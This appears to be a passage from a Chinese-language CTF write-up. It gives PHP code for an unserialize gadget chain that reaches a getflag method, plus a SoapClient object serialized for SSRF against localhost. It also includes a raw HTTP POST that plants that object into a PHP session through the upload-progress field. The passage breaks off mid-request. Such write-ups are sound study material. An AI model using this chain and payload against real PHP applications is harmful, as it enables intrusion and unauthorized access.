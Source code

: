 ```php
$c->mod1 = $e;


// 2. 当触发__call后，里面的$name会等于test2,然后$this->test2这个属性并不存在，所以会调用__get
// 3. 触发__get时，里面的$ke就会等于test2,所以是返回$this->mod2['test2']，这时候我们让$this->mod2等于一个数组，并把其test2的值设为cc的对象
// 4. 从__get里返回之后$s1 = cc的对象,当调用$s1()就会触发invoke 
$a->mod2 = array('test2'=> $c);


// 1. 这步在反序列化的时候会调用aa::test2(),但是aa::test2()不存在，所以会触发__call 
// __destruct->__call->__get->__get->__invoke->__toString->getflag

$b->mod1 = $a;


$x = serialize($b);
// $a = $_POST['aa'];
unserialize($x);

// 还差把序列化后的soapclient放到session第一位就可以触发ssrf了
// 预期解的
$target = "http://127.0.0.1/index.php?method=get_flag";
$options = array(
    "location" => $target,
    "user_agent" => "test",
    "uri" => "demo",
    "trace" => 1,
    "stream_context" => 0
);
 $a = new SoapClient(null,$options);
 $a->__setCookie('user', 'xZmdm9NxaQ==');
 var_dump(serialize($a));
```

所以可以提交payload，但是打不出来 看了下源码，是可以打到的，但是没回显，本地测试确实打进了。直接打interface的service。原理就是soapclient和soapserver交互可以有回显。放到第二个payload了

```html
POST /se.php HTTP/1.1
Host: 132.232.75.90
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://localhost/wulalala.html
Content-Type: multipart/form-data; boundary=---------------------------18467633426500
Content-Length: 878
Connection: close
Cookie: PHPSESSID=1c3jq2kqat2d123kv2rl6; user=xZmdm9NxaQ==
Upgrade-Insecure-Requests: 1

-----------------------------18467633426500
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

baaabb|O:10:"SoapClient":6:{s:3:"uri";s:30:"http://127.0.0.1/interface.php";s:8:"location";s:30:"http://127.0.0.1/interface.php";s:5:"trace";i:1;s:15:"_stream_context";i:0;s:13:"_soap_version";i:1;s:8:"_cookies";a:1:{s:4:"user";a:1:{i:0;s:12:"xZmdm9NxaQ==";}}}
-----------------------------18467633426500
Content-Disposition: form-data; name="file"; filename='aaaaaa'
Content-Type: application/octet-stream

1
-----------------------------18467633426500
Content-Disposition: form-data; name="aa"

```